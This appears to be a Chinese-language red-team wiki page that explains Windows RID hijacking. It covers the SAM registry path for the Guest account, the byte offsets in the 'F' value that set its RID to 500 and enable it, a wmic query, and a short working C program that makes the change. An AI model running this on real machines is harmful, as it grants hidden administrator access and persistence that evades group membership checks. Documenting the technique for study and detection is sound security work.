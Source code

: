 ```yaml
---
description: RID-hijack
---
```


# RID劫持

## RID Hijack简介

在windows系统内，使用rid区分用户组和用户账户，rid是安全标识符sid的一部分，每创建一个组或一个用户，都会往后递增一位，通常administrator的rid始终为500，而标准用户通常以1001开始。

![](../.gitbook/assets/image%20%2833%29.png)

 [Sebastian Castr](https://twitter.com/r4wd3r)发现可以通过修改注册表来劫持有效账户的RID，使guest成为管理员，同时进行活动的话会以原本的身份记录在日志内。

## 手工操作

windows内置访客账户guest的rid信息储存在一下键值对内。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\Guest
```

![0x1f5&#x8F6C;&#x6362;&#x6210;&#x5341;&#x8FDB;&#x5236;501](../.gitbook/assets/image%20%2821%29.png)

也可以通过wmic查询。

```text
wmic useraccount where (name='Guest') get name,sid
```

![](../.gitbook/assets/image%20%2827%29.png)

通过RID在如下键值对内寻找账户的相关信息。

```text
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F5
```

找到如下注册表项的键值对“F",此键值对内存储着标识账户RID和是否开启的数值。

PS:需要system权限。

![](../.gitbook/assets/image%20%2867%29.png)

在"F"键值对偏移0x30的位置存储着RID，修改为0xF401\(500\)即可劫持RID。

偏移0x38确定账户是否启用\(0X1502-&gt;关闭,0x1402-&gt;启用\)。

更改这些值将启用启用来宾帐户（有时情况下一部分），并劫持提升的RID（本地管理员）。来宾帐户将具有管理员权限，但是该帐户仍然不会出现在本地管理员组中。

## 代码实现

由于powershell和bat的脚本在互联网上可以轻易找到，这里只给出c的版本。

在metasploit和empire内也有比较成熟的模块。

```text
#include <Windows.h>
#include <stdio.h>


int  main()
{
	HKEY hKey = NULL;
	PCHAR KeyAddr = NULL;
	DWORD KeySize;
	DWORD KeyType;
	BYTE Buffer[0x50] = { 0 };
	KeyAddr = (PCHAR)"SAM\\SAM\\Domains\\Account\\Users\\000001F5";

	RegOpenKeyExA(HKEY_LOCAL_MACHINE, KeyAddr, 0, KEY_ALL_ACCESS, &hKey);
	RegQueryValueExA(hKey, "F", NULL, &KeyType, (LPBYTE)&Buffer, &KeySize);

	Buffer[0x30] = (BYTE)0xf4; //hijack rid
	Buffer[0x38] = (BYTE)0x14; //enable guest
	
	RegSetValueExA(hKey, "F",NULL, KeyType, Buffer, KeySize);
	RegCloseKey(hKey);
	return 0;
}

```

## LINKS

{% embed url="https://pentestlab.blog/category/red-team/persistence/page/1/" %}

{% embed url="https://xz.aliyun.com/t/2998" %}



